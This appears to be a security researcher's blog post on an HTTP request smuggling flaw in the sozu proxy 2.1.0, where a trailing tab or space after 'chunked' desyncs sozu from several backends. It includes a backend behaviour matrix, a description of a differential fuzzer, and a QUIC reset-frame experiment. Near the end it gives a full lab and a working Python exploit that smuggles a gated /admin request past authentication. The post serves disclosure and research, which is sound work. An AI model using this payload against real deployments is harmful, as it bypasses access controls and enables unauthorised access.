Every value whose final seven bytes are literally `chunked` gets acted on. Every value that pushes those bytes out of the window gets forwarded next to the `Content-Length`. The bug is visible in black-box measurements, in the shape of the results, which is a nicer way to find a suffix compare than reading Rust.

That is the argument for the variant axis being wide. Five values told me sozu was lenient. Eleven told me *how* it was lenient.

## seventy-seven pairs

Join the halves and you get predictions:

```
7 fronts x 11 backends = 77 pairs, computed from 18 measurements.

| front       | backend            | parser     | variants                    |
| sozu 2.1.0  | Go net/http        | net/http   | chunked<TAB>, chunked<SP>   |
| sozu 2.1.0  | Puma               | puma (C)   | chunked<TAB>, chunked<SP>   |
| sozu 2.1.0  | Hypercorn          | h11        | chunked<TAB>, chunked<SP>   |
| sozu 2.1.0  | uvicorn --http h11 | h11        | chunked<TAB>, chunked<SP>   |
```

Four predicted desyncs. They are exactly the four backends I had confirmed by hand, on exactly the two variants that fire. The system reproduced a week of work from two independent measurement runs, neither of which knew about the other.

I want to be precise about what that does and does not prove. It does not prove the predictor finds new bugs; the only vulnerable front in the population is the one I put there as a control. What it proves is that the prediction is sound: measure the halves, join them, get the pairs that a human found the slow way.

**A prediction is a hypothesis.** The output file says so. Each pair still has to be fired end to end and confirmed against a negative control before it is a vulnerability, because a table cannot tell you whether a backend connection is actually pooled, whether the proxy binds one upstream connection per client, or whether anything downstream trusts what you smuggled. That is what the walls section in part one was about: I had a working desync against sozu and most of the impact I wanted was still walled off by its connection model.

## what the table says that advisories cannot

Two rows in the backend table:

| backend | parser | `chunked<TAB>` |
|---|---|---|
| uvicorn `--http h11` | h11 | SMUGGLE |
| uvicorn `--http httptools` | httptools | reject 400 |

Same server. Same version. One command-line flag. Opposite verdict.

We track HTTP vulnerabilities by product and version, and that granularity is simply wrong for this class. The security boundary is the parser, and one product ships several. If you run an ASGI app, "am I exposed" does not depend on which server you chose, it depends on which parser you loaded, and there is no column for that in any advisory database I know of.

The same is true one layer out. Apache httpd was the only front in the population to answer a third way: it strips the `Transfer-Encoding` and forwards `Content-Length` alone. Not normalized, not rejected, stripped. That is a fifth behavior class nobody would think to ask about until a table has a hole in it.

That is the part I would keep if every bug in this post were patched tomorrow. Audit parsers, not products.

---

## the hand-measured pass

Before any of the automation below existed, I built the backend half of this by hand, one Docker lab per row, because I wanted to know how wide the exposure was. It is worth keeping because it covers a broader population than the automated harness currently does, including the JVM and the older Ruby and Python servers.

## the honor matrix

Which backend makes the pair fire is the actual reference contribution here, so here is the whole matrix. Every cell is an isolated Docker lab with a positive control (plain chunked smuggles) and a negative control (CL-only frames one). SMUGGLE means it de-chunks and keeps the connection alive so the second request frames.

| backend (parser) | `chunked` | `chunked<TAB>` | `chunked ` | `chunked;a=b` | `chunked, identity` |
|---|---|---|---|---|---|
| Go net/http | SMUGGLE | SMUGGLE | SMUGGLE | reject 501 | reject 501 |
| Puma (C parser) | SMUGGLE | SMUGGLE | SMUGGLE | reject | reject |
| uvicorn `--http h11` | SMUGGLE | SMUGGLE | SMUGGLE | reject | reject |
| Hypercorn (h11) | SMUGGLE | SMUGGLE | SMUGGLE | reject | reject |
| Werkzeug (dev) | de-chunk, no keep-alive | de-chunk | de-chunk | CL-safe | de-chunk |
| Unicorn | de-chunk, no keep-alive | de-chunk | de-chunk | CL-safe | reject |
| Tomcat (Coyote) | CL-safe | CL-safe | CL-safe | reject | reject |
| uvicorn `--http httptools` | reject 400 | reject 400 | reject 400 | reject | reject |
| gunicorn (sync, gthread) | reject | reject | reject | reject | reject |
| uWSGI, Thin, WEBrick, wsgiref | CL-safe | CL-safe | CL-safe | CL-safe | CL-safe |
| Jetty, Undertow | reject | reject | reject | reject | reject |
| Node 18 / 22 (llhttp) | reject | reject | reject | reject | reject |

Four production stacks are live behind sozu on the trailing-whitespace variants: Go, Puma, h11, Hypercorn. The exotic obfuscations that sozu also forwards (`chunked;a=b`, `chunked, identity`) are honored by nobody in production, only Werkzeug's dev server, and it closes the connection so it does not pool. That last row matters for the fix: trimming the tab is not enough, because the class is wider than the tab, but the exploitable slice today is the trailing-whitespace column.

---

## what Phage actually is

I have been saying "the fuzzer" for two thousand words, so here is the thing itself. Phage started as a fork of CyberArk's QuicDrawH3 and turned into an evolutionary differential fuzzer for framing bugs.

The core decision is that a test case is not a byte string. It is a **genome**: an ordered list of framing operations, `Headers`, `Data`, `Delay`, `Fin`, `Reset`, and the QUIC transport ops. Every op maps to one call on a real HTTP/1, HTTP/2 or HTTP/3 client, so a genome is always sendable by construction. You never waste a generation on something the client refuses to emit. Mutation operators, thirty-six of them now, edit the genome rather than the bytes: flip an `end_stream` flag, desync a declared `Content-Length` from the body actually sent, obfuscate a `Transfer-Encoding`, split a DATA frame, insert a `Delay` so a FIN lands late.

Selection is MAP-Elites rather than a single fitness score. The archive is keyed by a behavior descriptor, roughly the shape of the request plus what the backend actually did with it, so the search keeps one elite per behavior cell instead of collapsing onto a single best. For a class like this, where the interesting region is a narrow ridge, keeping the weird-but-alive variants around matters more than optimizing one number.

The oracle is the part I care about most, and this post is the story of getting it wrong. It is differential, it counts what the origin framed, and it carries a built-in negative control: the same genome with the trigger removed must come back clean, or the hit is discarded. Since this work I also split the tap signal from the impact signal, because "the proxy forwarded a body-length lie" and "a victim got hurt" are not the same claim, and only the second one is a vulnerability.

Pointing it at a pair is one command against a lab:

```
python -m phage.evo --host 127.0.0.1 --port 9200 \
    --echo-log logs/backend.jsonl --generations 200 --raw
```

`--raw` is the one that matters for this class. It hand-builds the frames instead of going through a conformant client, so a `Content-Length` that contradicts the body, or a header a polite client would refuse to send, actually reaches the wire. A saved hit replays with `--replay poc.json`.

---

## handing it back to the fuzzer

A finding a human dug out by hand is only half a tool result, so I gave it back to Phage. I added the tab-suffixed `Transfer-Encoding` to the mutation gene pool and the Go backend to the panel, and let the engine run its own mutations against the live pair.

The first attempt found nothing. A blind search over the full 34-operator set is too sparse to assemble a three-part payload, the framing header plus the empty-chunk body plus the smuggled request, before other operators corrupt one of the pieces. Sixty single mutations from a smuggle-shaped seed produced zero hits, which is exactly what the arithmetic predicts: one operator in thirty-four, and only two of its six variants actually split the pair.

So I ran it as a targeted campaign, biasing the mutation prior toward the two framing genes, which is how you hunt a known class rather than a novelty. From a smuggle-shaped seed it evaluated 150 genomes and its differential oracle flagged two, whose triggering values were exactly `chunked` with a trailing tab and `chunked` with a trailing space, and cleared the obfuscations that get rejected. The tool rediscovered the bug I had found by hand.

The honest note: the engine did the discrimination, which is the part that matters. It is the difference between a fuzzer that emits `chunked\t` and a fuzzer that can tell you `chunked\t` splits sozu from Go while `chunked;a=b` does not. The blind-search sparsity is a real limit and I am not hiding it behind the campaign number.

---

## the lab fought back

One field note, because it is the kind of thing that never makes it into a clean writeup and always eats an hour. Midway through validating the final packaged PoC, my Docker daemon's containerd content store corrupted itself: `blob ... operation not permitted`, on read, as root, for a blob that plainly existed. Restarts did nothing, because a restart does not fix a permission or consistency fault in the content store. It was self-inflicted, an interrupted `docker pull` racing an `rmi` that left the store inconsistent. The fix was to clear the stuck ingest and normalize the store permissions, not to wipe every image. I mention it only because "run it on a clean target" assumes the target stays clean, and a lab that has been abused for a week is not a clean target. Validate the exact shipped steps from a fresh unzip, on a machine that can actually run them, or say plainly that you could not.

---

## the axis nobody can measure yet

Everything above lives in HTTP/1 header semantics, where both halves are byte-inspectable and every tool in the field can generate the inputs.

That stops being true one layer down. QUIC has an extension in draft, [reliable stream reset](https://datatracker.ietf.org/doc/html/draft-ietf-quic-reliable-stream-reset), whose `RESET_STREAM_AT` frame resets a stream but guarantees delivery up to a reliable-size offset. The load-bearing sentence is that a sender may emit several of them to **reduce** that size. You can send a hundred body bytes and then shrink how many of them count, after they are already on the wire.

No HTTP transport has ever let the sender do that. In H1 and H2 a sent byte is sent. Here the length is a value the attacker can move after committing to it, which is the same transport-length-versus-`Content-Length` axis as the standalone-FIN class, with a control that moves post-commit.



The front cannot un-send what it already streamed. The shrink is free for the attacker and impossible for the proxy to honor retroactively.

Nobody has measured it, and the reason is boring: no public tool can emit the frame. aioquic does not implement it, and every H3 smuggling tool builds on a QUIC library and lets that library reassemble the stream honestly. So I taught Phage to write the raw frame, and pointed it at a downgrader that honors the extension the naive way: stream the body to a pooled backend, pass the client `Content-Length`, treat the reliable size as request-complete, return the connection to the pool.

```
NEG CONTROL (well-formed CL=4 + body):
  backend saw: ['POST /ctl HTTP/1.1', 'POST /VICTIM HTTP/1.1']   CLEAN
ATTACK (CL=100, 50 bytes sent, RESET_STREAM_AT reliable=5):
  backend saw: ['POST /evil HTTP/1.1', '4']                      POISONED
```

The victim's request line gets eaten as the attacker's missing body. Three standard proxy behaviors plus one naive reading of a draft extension, and the bytes are already committed downstream when the length shrinks underneath them.

Now the honest part, because this is the section where a post like this usually oversells. **That downgrader is one I wrote.** Every shipping stack I tested rejects the frame outright, and Google QUICHE implements it but ships it disabled, closing the connection with `RESET_STREAM_AT not enabled`. Breaking a proxy I built myself is a demonstration of a mechanism, not a vulnerability in anything you run. It is a primitive published before its attack surface deploys, and the only claim I will make is that when someone turns that flag on, the measurement should already exist.

Which is the same argument as the rest of the post. The matrix is not interesting because it found something. It is interesting because it is the shape of instrument that would notice.

---

---

## the code

The harness is in [Phage](https://github.com/UncleJ4ck/Phage) under `matrix/`.

```
python matrix/run_matrix.py     # back half: which servers honor which values
python matrix/run_fronts.py     # front half: which proxies forward which values
python matrix/pairs.py          # join them into predicted pairs
```

Adding a backend is one entry in `backends.py`: an image, a port, and a trivial app. Adding a front is one entry in `fronts.py` with a config template. Adding a variant is one line, and it multiplies across the whole population.

Three things I would keep if I threw the rest away. Measure halves, not pairs, because the halves compose and the pairs do not. Gate every row on a control that proves the instrument can produce a positive, and print `UNTRUSTED` when it cannot. And put a known-vulnerable target in the population permanently, so the day the harness quietly breaks, the calibration row goes quiet first.

## reproduce it

I kept the lab to three files so you do not have to trust my screenshots. It is the real thing: the official sozu image, a two-frontend auth topology, and a Go origin that logs what it actually framed. Two commands and you watch a 401 turn into a 200.

One note now that the fix has shipped. The image is pinned to `clevercloud/sozu:2.1.0`, the release I reported against. If you swap it for `latest` you get 2.2.0 and the smuggled request never reaches the origin, which is the fastest way to watch the patch work.

The topology, `docker-compose.yml`:

```yaml
services:
  backend:
    image: golang:1.23-alpine
    working_dir: /app
    volumes:
      - ./be_go.go:/app/be_go.go:ro
      - ./logs:/logs
    command: sh -c "cp /app/be_go.go /tmp/be_go.go && go run /tmp/be_go.go"
    networks: { net: { ipv4_address: 172.63.0.10 } }
  sozu:
    image: clevercloud/sozu:2.1.0   # vulnerable; 2.2.0 and later are fixed
    depends_on: [backend]
    ports: [ "127.0.0.1:9200:9200/tcp" ]
    volumes:
      - ./sozu.toml:/etc/sozu/sozu.toml:ro
    command: ["start", "-c", "/etc/sozu/sozu.toml"]
    networks: { net: { ipv4_address: 172.63.0.12 } }
networks:
  net: { ipam: { config: [ { subnet: 172.63.0.0/24 } ] } }
```

The sozu config, `sozu.toml`. This is the whole precondition in nine lines: two frontends on the same host, one open, one gated, both pointing at the same backend. The hash is `admin:secret`, generated the way the sozu docs tell you to, `printf 'secret' | sha256sum`:

```toml
[[listeners]]
protocol = "http"
address = "0.0.0.0:9200"

[clusters.C]
protocol = "http"
load_balancing = "ROUND_ROBIN"
www_authenticate = 'Basic realm="admin"'
authorized_hashes = [ "admin:2bb80d537b1da3e38bd30361aa855686bde0eacd7162fef6a25fe97bf527a25b" ]
frontends = [
    { address = "0.0.0.0:9200", hostname = "lab", path = "/public", path_type = "PREFIX" },
    { address = "0.0.0.0:9200", hostname = "lab", path = "/admin", path_type = "PREFIX", required_auth = true },
]
backends = [ { address = "172.63.0.10:8080", backend_id = "b1" } ]
```

The origin, `be_go.go`. The only thing that matters here is that Go's `net/http` trims the trailing whitespace and de-chunks, so it disagrees with sozu. It logs the `Authorization` header it saw, which is the whole point:

```go
package main

import ( "fmt"; "io"; "net/http"; "os" )

func logline(s string) {
	f, _ := os.OpenFile("/logs/backend.log", os.O_APPEND|os.O_CREATE|os.O_WRONLY, 0644)
	if f != nil { f.WriteString(s + "\n"); f.Close() }
}

func main() {
	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		b, _ := io.ReadAll(r.Body)
		logline(fmt.Sprintf("REQ %s %s auth=%q xff=%q te=%v bodylen=%d",
			r.Method, r.URL.Path, r.Header.Get("Authorization"),
			r.Header.Get("X-Forwarded-For"), r.TransferEncoding, len(b)))
		w.Header().Set("Content-Length", fmt.Sprint(len("RESP-FOR:"+r.URL.Path+"\n")))
		io.WriteString(w, "RESP-FOR:"+r.URL.Path+"\n")
	})
	http.ListenAndServe("0.0.0.0:8080", nil)
}
```

Bring it up (the Go backend compiles on the first run, so give it a moment):

```
docker compose up -d
until [ "$(curl -s -o /dev/null -w '%{http_code}' -H 'Host: lab' http://127.0.0.1:9200/public/x)" = "200" ]; do sleep 2; done
```

Now the one request that does it, no harness, just a socket. An unauthenticated carrier to `/public` with the gated request smuggled in its body, then a follow-up on the same connection to read the answer back:

```python
import socket
smug = b"GET /admin/secret HTTP/1.1\r\nHost: lab\r\nX-Forwarded-For: 6.6.6.6\r\n\r\n"
body = b"0\r\n\r\n" + smug
req  = (b"GET /public/x HTTP/1.1\r\nHost: lab\r\n"
        b"Content-Length: %d\r\nTransfer-Encoding: chunked\t\r\n\r\n" % len(body)) + body
s = socket.create_connection(("127.0.0.1", 9200), timeout=5)
s.sendall(req + b"GET /public/y HTTP/1.1\r\nHost: lab\r\nConnection: close\r\n\r\n")
s.settimeout(2)
try:
    while s.recv(4096): pass
except OSError: pass
s.close()
print(open("logs/backend.log").read())
```

The backend log prints `REQ GET /admin/secret ... auth=""`. sozu framed one request; the origin framed two; the second one is the gated endpoint arriving with no `Authorization` and an attacker-chosen `X-Forwarded-For`. Delete the single `Transfer-Encoding: chunked\t` line and the `/admin/secret` line vanishes. That is the whole bug in one diff.

The fuzzer itself and the eight-stack HTTP/3 and HTTP/2 downgrade panel I started from are in the [Phage repo](https://github.com/UncleJ4ck/Phage). The sozu CL.TE lab above is the specific pair this post is about; the panel labs there are the general net I was dragging when I found it.

## references

- [T-Reqs: HTTP Request Smuggling with Differential Fuzzing](https://dl.acm.org/doi/10.1145/3460120.3485384) (CCS 2021)
- [The HTTP Garden](https://arxiv.org/abs/2405.17737) (2024)
- [PortSwigger: HTTP request smuggling](https://portswigger.net/web-security/request-smuggling)
- [sozu-proxy/sozu issue #726](https://github.com/sozu-proxy/sozu/issues/726) (2021, the report this regressed from)
- [kawa PR #19](https://github.com/CleverCloud/kawa/pull/19), the fix, and [PR #21](https://github.com/CleverCloud/kawa/pull/21), the follow-up on header-value OWS
- [kawa 0.7.0](https://github.com/CleverCloud/kawa/releases/tag/v0.7.0) and sozu 2.2.0, the fixed releases
- [RustSec advisory PR #3142](https://github.com/rustsec/advisory-db/pull/3142) for the kawa crate
- [draft-ietf-quic-reliable-stream-reset](https://datatracker.ietf.org/doc/html/draft-ietf-quic-reliable-stream-reset)
- RFC 9112 section 6.1 (chunked must be the final coding) and 6.3 (reject when framing is undeterminable), RFC 9110 section 5.6.3 (OWS)
